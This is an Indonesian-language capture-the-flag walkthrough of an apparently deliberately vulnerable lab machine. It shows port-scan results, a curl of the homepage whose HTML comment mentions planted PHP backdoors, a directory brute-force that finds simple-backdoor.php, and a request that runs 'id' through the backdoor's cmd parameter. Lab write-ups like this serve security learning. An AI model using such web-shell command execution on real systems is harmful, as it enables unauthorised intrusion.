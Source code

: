 
*   `22/TCP open` with OpenSSH 7.9p1 Service as ssh that runs on Debian.
*   `80/TCP open` with Nginx 1.14.2 as HTTP.

ketika saya cari lebih tentang exploit yang ada, ternyata semunya sudah _up-to-dated_

\-

web source info
---------------

kurang menarik bukan? mari lihat `web source`nya. (sebenarnya saya sudah buka full tampilan _frontend_ tapi isinya cuma kaya gini, ya jadi saya kasih seperti di bawah :)).

    ╭─ via [machines/suidyrevenge]
    ╰─ curl -v $victim
    *   Trying 192.168.56.28:80...
    * Connected to 192.168.56.28 (192.168.56.28) port 80 (#0)
    > GET / HTTP/1.1
    > Host: 192.168.56.28
    > User-Agent: curl/7.86.0
    > Accept: */*
    > 
    * Mark bundle as not supporting multiuse
    < HTTP/1.1 200 OK
    < Server: nginx/1.14.2
    < Date: Fri, 04 Nov 2022 18:14:00 GMT
    < Content-Type: text/html
    < Content-Length: 322
    < Last-Modified: Thu, 01 Oct 2020 18:11:16 GMT
    < Connection: keep-alive
    < ETag: "5f761bc4-142"
    < Accept-Ranges: bytes
    < 
    Im proud to announce that "theuser" is not anymore in our servers.
    Our admin "mudra" is the best admin of the world.
    -suidy
    
    <!--
    
    "mudra" is not the best admin, IM IN!!!!
    He only changed my password to a different but I had time
    to put 2 backdoors (.php) from my KALI into /supersecure to keep the access!
    
    -theuser
    
    -->
    * Connection #0 to host 192.168.56.28 left intact
    

dir bruteforce
--------------

saya coba directory bruteforce pada `/supersecure/` untuk mencari backdoor yang dimaksud.

    ╭─ via [machines/suidyrevenge]
    ╰─ cat url_gobuster_2 
    /simple-backdoor.php  (Status: 200) [Size: 28]
    ╭─ via [machines/suidyrevenge]
    ╰─ curl -s $victim/supersecure/simple-backdoor.php
    cmd parameter is my friend.
    ╭─ via [machines/suidyrevenge]
    ╰─ curl -s "$victim/supersecure/simple-backdoor.php?cmd=id"                                                                  3 ↵
    cmd parameter is my friend.
    <pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
    </pre>% 
    
